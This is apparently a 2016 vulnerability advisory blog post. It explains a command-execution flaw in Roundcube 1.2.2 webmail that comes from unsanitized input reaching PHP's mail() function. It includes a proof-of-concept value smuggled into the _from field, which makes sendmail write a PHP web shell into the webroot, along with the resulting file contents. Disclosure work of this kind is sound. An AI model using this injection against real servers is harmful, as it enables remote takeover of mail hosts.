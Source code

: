 # Roundcube 1.2.2: Command Execution via Email

6 Dec 2016 by Robin Peraglie

[Roundcube](https://www.roundcube.net/) is a widely distributed open-source webmail software
used by many organizations and companies around the globe. In this post,
we show how a malicious user can remotely execute arbitrary commands on
the underlying operating system, simply by writing an email in Roundcube
1.2.2 (\>= 1.0). This vulnerability is **highly critical** because all
default installations are affected.


The mirror on SourceForge counts [more than 260,000 downloads for
Roundcube in the last 12 months](https://sourceforge.net/projects/roundcubemail/files/stats/timeline?dates=2015-12-01+to+2016-12-01) which is only a small
fraction of the actual users. Once Roundcube is installed on a server,
it provides a web interface for authenticated users to send and receive
emails with their web browser.

## RIPS Analysis

It took RIPS exactly 25 seconds to fully analyze the whole application
and to detect the security vulnerabilities shown in the charts above.
Although it seems that the issues come in numbers, many of them turned
out to be less severe because they were parts of the installation module
or of dead legacy code. Regardless, it is adviced to also fix these
vulnerabilities and to remove the dead code in order to prevent future
unsafe use or combinations with other security bugs, as demonstrated in
earlier posts of our advent calendar.

## Requirements

The vulnerability has the following requirements for exploitation:

-   Roundcube must be configured to use PHP's `mail()` function ([by
    default, *if no SMTP was specified*](https://github.com/roundcube/roundcubemail/wiki/Configuration#sending-messages-via-smtp))
-   PHP's `mail()` function is configured to use sendmail ([by default,
    see *sendmail_path*](http://php.net/manual/en/mail.configuration.php))
-   PHP is configured to have `safe_mode` turned off ([by default, see
    *safe_mode*](http://php.net/manual/en/ini.sect.safe-mode.php))
-   An attacker must know or guess the absolute path of the webroot

These requirements are not particular demanding which in turn means that
there were a lot of vulnerable systems in the wild.

## Description

In Roundcube 1.2.2 and earlier, user-controlled input flows unsanitized
into the fifth argument of a call to PHP's built-in function `mail()`
which is documented as
[critical](https://www.saotn.org/exploit-phps-mail-get-remote-code-execution/) in terms of security. The problem is that the
invocation of the `mail()` function will cause PHP to execute the
sendmail program. The fifth argument allows passing additional
parameters to this execution which allows a configuration of sendmail.
Since sendmail offers the `-X` option to log all mail traffic in a file,
an attacker can abuse this option and spawn a malicious PHP file in the
webroot directory of the attacked server. Although this vulnerability is
rare and not widely known, RIPS detected it within seconds. The
following code lines trigger the vulnerability.

```php
$from = rcube_utils::get_input_value('_from', rcube_utils::INPUT_POST, true, $message_charset);
⋮
$sent = $RCMAIL->deliver_message($MAIL_MIME, $from, $mailto,$smtp_error, $mailbody_file, $smtp_opts);
```

Here, the value of the POST parameter `_from` is fetched and Roundcube's
`deliver_message()` method is invoked with the value used as second
argument `$from`.

```php
public function deliver_message(&$message, $from, $mailto, &$error, &$body_file = null, $options = null) {
    ⋮
    if (filter_var(ini_get('safe_mode'), FILTER_VALIDATE_BOOLEAN))
        $sent = mail($to, $subject, $msg_body, $header_str);
    else
        $sent = mail($to, $subject, $msg_body, $header_str, "-f$from");
```

This method will then pass the `$from` parameter to a call of the
`mail()` function. The idea is to pass a custom `from` header to the
sendmail program via the `-f` option.

### Insufficient Sanitization

An interesting part is that it seems as if the `from` e-mail address is
filtered beforehand with a regular expression. Basically, the `$from`
parameter is expected to have no whitespaces which would limit the
possibility to attach other parameters behind the `-f` parameter. Using
whitespace constants such as `$IFS` or injecting new shell commands
``  ` `` does not succeed at this point. However, there is a logical
flaw in the application that causes the sanitization to fail.

```php
else if ($from_string = rcmail_email_input_format($from)) {
    if (preg_match(&#39;/(\S+@\S+)/&#39;, $from_string, $m))
        $from = trim($m[1], &#39;<>&#39;);
    else
        $from = null;
}
```

In line 105, an email is extracted from the user-controlled variable
`$from` that contains no whitespaces. However, this extraction only
takes place when the `rcmail_email_input_format()` function returns a
value equivalent to TRUE. In the following, we will examine this
function closely.

```php
function rcmail_email_input_format($mailto, $count=false, $check=true)
{
    global $RCMAIL, $EMAIL_FORMAT_ERROR, $RECIPIENT_COUNT;
    // simplified email regexp, supporting quoted local part
    $email_regexp = &#39;(\S+|(&#34;[^&#34;]+&#34;))@\S+&#39;;
    ⋮
    // replace new lines and strip ending &#39;, &#39;, make address input more valid
    $mailto = trim(preg_replace($regexp, $replace, $mailto));
    $items  = rcube_utils::explode_quoted_string($delim, $mailto);
    $result = array();
    foreach ($items as $item) {
        $item = trim($item);
        // address in brackets without name (do nothing)
        if (preg_match(&#39;/^<&#39;.$email_regexp.&#39;>$/&#39;, $item)) {
            $item     = rcube_utils::idn_to_ascii(trim($item, &#39;<>&#39;));
            $result[] = $item;
        }
        ⋮
        else if (trim($item)) {
            continue;
        }
        ⋮
    }
    if ($count) {
        $RECIPIENT_COUNT += count($result);
    }
    return implode(&#39;, &#39;, $result);
}
```

The function uses another regular expression in line 863 which requires
that the line ends (`$`) right after the email match. A payload used by
an attacker does not have to match this regex and therefore the array
`$result` will stay empty after the `foreach` loop. In this case, the
`implode()` function in line 876 will return an empty string (equal to
FALSE) and the `$from` variable is **not** altered nor sanitized.

## Proof of Concept

When an email is sent with Roundcube, the HTTP request can be
intercepted and altered. Here, the `_from` parameter can be modified in
order to place a malicious PHP file on the file system.

```
example@example.com -OQueueDirectory=/tmp -X/var/www/html/rce.php
```

This allows an attacker to spawn a shell file *rce.php* in the web root
directory with the contents of the `_subject` parameter that can contain
PHP code. After performing the request, a file with the following
content is created:

```
04731 >>> "Recipient names must be specified"
04731 <<< To: squinty@localhost
04731 <<< Subject: <?php phpinfo(); ?>
04731 <<< X-PHP-Originating-Script: 1000:rcube.php
04731 <<< MIME-Version: 1.0
04731 <<< Content-Type: text/plain; charset=US-ASCII;
04731 <<<  format=flowed
04731 <<< Content-Transfer-Encoding: 7bit
04731 <<< Date: So, 20 Nov 2016 04:02:52 +0100
04731 <<< From: example@example.com -OQueueDirectory=/tmp
04731 <<<  -X/var/www/html/rce.php
04731 <<< Message-ID: <390a0c6379024872a7f0310cdea24900@localhost>
04731 <<< X-Sender: example@example.com -OQueueDirectory=/tmp
04731 <<<  -X/var/www/html/rce.php
04731 <<< User-Agent: Roundcube Webmail/1.2.2
04731 <<<
04731 <<< Funny e-mail message
04731 <<< [EOF]
```

Since the email data is unencoded, the subject parameter will be
reflected in plaintext which allows the injection of PHP tags into the
shell file.

## Time Line

| Date | What |
|------|------|
| 2016/11/21 | First contact with vendor |
| 2016/11/22 | [Vendor fixes vulnerability on GitHub](https://github.com/roundcube/roundcubemail/commit/f84233785ddeed01445fc855f3ae1e8a62f167e1) |
| 2016/11/28 | Vendor agrees to coordinated disclosure |
| 2016/11/28 | [Vendor releases updated version Roundcube 1.2.3](https://roundcube.net/news/2016/11/28/updates-1.2.3-and-1.1.7-released) |

## Summary

Roundcube 1.2.2 is resistant against many attack vectors and a large
community works on the software continuously together securing the
application. However, the vulnerability described in this post could
slip through and is an edge-case due to its rarity. With the aid of
automated testing, it is not only possible to detect such edge-cases,
but it allows to save human resources and therefore focus on different
aspects in the development process of a secure web application.

We would like to thank the Roundcube team for the very quick fix after
just one day, and the new release made available only after one week!
This is a very impressive and professional response towards security
issues.
